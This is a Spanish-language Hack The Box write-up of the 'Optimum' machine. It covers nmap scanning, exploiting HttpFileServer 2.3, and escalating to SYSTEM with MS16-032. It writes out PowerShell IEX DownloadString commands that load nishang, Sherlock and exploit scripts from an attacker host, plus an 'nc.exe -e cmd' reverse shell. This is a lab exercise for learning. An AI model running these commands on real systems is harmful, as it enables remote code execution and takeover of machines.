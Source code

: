 
#  OPTIMUN MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.8 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.8 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/3.png)

## EXPLOTACION

veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/4.png)

no muestra nada interesante, tenemos la version del servidor web **httpfileserver 2.3**, veamos si encontramos algun exploit:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/5.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/6.png)

nos indica que debemos tener un servidor donde pueda descargar el netcat, nos movemos el netcat a nuestro directorio actual:

```bash
mv /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer
```

ademas debemos modificar esta parte del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/7.png)

nos colocamos a la escucha segun lo que configuramos y debemos ejecutarlo multiples veces porque en una descarga el netcat y en otra nos da la shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/8.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/9.png)

### PASANDONOS A UNA POWERSHELL

vamos a pasarnos a una powershell porque es mucho mas manejable, ademas vamos a aprender muchas cosas. Vamos a usar el script de nishang **InvokePowerShellTCP** lo tenemos en la carpeta shell de su repositorio: [nishang](https://github.com/samratashok/nishang).

creamos una copia en nuestra carpeta de trabajo, en mi caso tengo el repositorio de nishang en **/opt**:

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

lo editamos y vamos a colocar esta linea en la ultima parte del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/10.png)

esto lo hacemos porque vamos a cargar el script en la maquina windows en memoria, de modo que cargara el script y la ultima linea. Esta linea llama a una funcion que esta en el mismo script llamada Invoke-PowerShellTCP que nos da la conexion reversa, ademas configuramos la IP y el puerto.

Vamos a establecer un servidor en python donde esta el script y vamos a descargarlo desde windows ya que tenemos una cmd:

```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PS.ps1')
```

ponemos **start /b** para que lo ejecute en segundo plano porque se queda en espera y ya no podemos usar la cmd. Esta es la forma de cargar en memoria un recurso externo mediante powershell.

Estamos a la escucha en netcat y obtenemos nuestra powershell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/11.png)

algo que debemos verificar a la hora de busacr exploits de kernel mediante wes-ng, watson, windows exploit suggester u otro es que la powershell debe estar en un proceso de la misma arquitectura del sistema operativo, s decir que si el sistema operativo es de 64 bits el proceso que os da la powershell debe ser igual de 64 bits. Esto porque a la hora de buscar exploit de kernel mediante el **systeminfo** no queremos que mnos de falsos positivos.

para comprobar esto hacemos lo siguiente en la powershell:

```bash

#verificar 64 bits

[Environment]::Is64BitOperatingSystem

[Environment]::Is64BitProcess

#verificar 32 bits

[Environment]::Is32BitOperatingSystem

[Environment]::Is32BitProcess
```

si ambos salen **True** es que el proceso es de la misma arquitectura que el sistema operativo y eso es lo que queremos. 

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/12.png)

en nuestro caso no salio igual, para solucionar esto debemos invocar nuevamente el script de nishang pero usando la ruta completa de powershell:

```bash
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PS.ps1')
```

si comprobamos ahora si esta igual:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/13.png)

## ELEVACION DE PRIVILEGIOS

Para ver vias potenciales para escalar privilegios usare sherlock.ps1 de rastamouse [sherlock](https://github.com/rasta-mouse/Sherlock). Lo vamos a cargar en memoria pero esta vez desde la powershell, este script tiene una funcion que verifica todas las posibles vulnerabilidades llamada **Find-AllVulns**, como lo vamos a cargar en memoria debemos colocarlo al final del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/14.png)

y lo llamamos desde la powershell (montandonos un servidor en python donde esta el script)

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Sherlock.ps1')
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/15.png)

El que me funciono fue el **MS16-032**, encontre un script en powershell que permite ejecutar comandos como system. [MS16-032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

Nos muestra como debemos usarlo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/16.png)

una vez mas vamos a descargar el script y colocaremos ese ejemplo al final porque lo cargaremos en memoria, aclarar que la funcion se llama **Invoke-MS16032** y no como en el ejemplo **Invoke-MS16-032**

recordemos que ya pasamos el netcat (nc.exe) al equipo en la fase de explotacion y se encuentra en la ruta **C:\\Users\\kostas\\Desktop** asi que me mandare una cmd con netcat como system

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/17.png)

ahora nos colocamos en escucha en ese puerto y cargamos en memoria el script:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1')
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/18.png)

obtenemos una reverse shell como system y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUN/images/19.png)

### NOTA

Si vamos a querer una reverse powershell siempre ver que el proceso coincida con la arquitectura del sistma operativo.

Si vamos a cargar un script en memoria lo hacemos con:

```bash
IEX(New-Object Net.WebClient).downloadString('python server')
```

y debemos llamar a la funcion en la ultima linea o lo podemos concatenar de la siguiente manera:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1'); Invoke-MS16032 -Command "C:\Users\kostas\Desktop\nc.exe -e cmd 10.10.14.16 4646"
```